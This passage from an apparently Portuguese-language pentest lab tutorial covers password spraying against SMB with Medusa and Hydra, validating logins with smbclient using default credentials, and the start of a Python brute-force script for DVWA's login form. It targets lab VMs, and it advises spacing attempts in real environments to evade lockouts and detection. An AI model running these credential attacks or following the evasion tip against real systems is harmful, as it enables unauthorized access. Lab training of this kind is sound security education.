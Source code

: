 
Evidências sugeridas:

results/medusa_ftp.txt (saída do Medusa)

screenshot do login FTP bem-sucedido (screenshots/ftp_success.png)

6 — Cenário B: Password spraying e SMB

Objetivo: aplicar uma (ou poucas) senha(s) contra vários usuários para demonstrar password spraying e validar com smbclient.

Tentar com Medusa (módulo SMB — o nome do módulo pode variar conforme versão):

medusa -h 192.168.56.102 -M smbnt -U wordlists/users.txt -P wordlists/passwords.txt -f | tee results/medusa_smb.txt


Se o módulo não estiver disponível, alternativa com hydra:

hydra -L wordlists/users.txt -P wordlists/passwords.txt smb://192.168.56.102 -V | tee results/hydra_smb.txt


Validar credenciais com smbclient:

smbclient -L //192.168.56.102 -U msfadmin%msfadmin
# ou montar um share:
smbclient //192.168.56.102/shared -U msfadmin%msfadmin


Evidências sugeridas:

results/medusa_smb.txt ou results/hydra_smb.txt

screenshot do smbclient listado (screenshots/smb_success.png)

Nota sobre password spraying: em ambientes reais, espaçar tentativas para evitar lockouts e detecção. Em laboratório, documente o comportamento (lockouts, alertas).

7 — Cenário C: Ataque a formulário Web (DVWA)

DVWA tem um módulo "Brute Force" que pode ser configurado para demonstrar. Formulários web normalmente exigem manipulação de tokens (CSRF) — por isso apresentamos duas abordagens.

7.1 Script Python (requests) — scripts/dvwa_bruteforce.py

Crie scripts/dvwa_bruteforce.py:

#!/usr/bin/env python3
# dvwa_bruteforce.py — Exemplo simples para DVWA (ajuste URLs e strings conforme instalação)

import requests
from time import sleep
import os

target = "http://192.168.56.102/dvwa/vulnerabilities/brute/"  # ajustar se necessário
login_page = "http://192.168.56.102/dvwa/login.php"
